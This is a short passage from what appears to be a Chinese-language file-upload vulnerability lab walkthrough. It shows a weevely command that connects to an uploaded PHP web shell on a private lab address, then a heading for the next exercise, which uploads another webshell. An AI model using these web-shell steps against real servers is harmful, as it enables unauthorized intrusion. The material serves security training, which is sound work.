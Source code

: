 4.连接后门

```
weevely http://192.168.2.128/upload/farmsec.php 123456 dir
```

![1113a06add569588a510015858eb7353.png](../../images/f610377d6d3342f9aa9cc68fc8a6c695.png)

## 1.2.8 Less13测试：

上传webshell
![e3ced51643b82f80e40f11845e5cdf24.png](../../images/54e25a3d10fb4889b06329d60bf9627b.png)
上传图片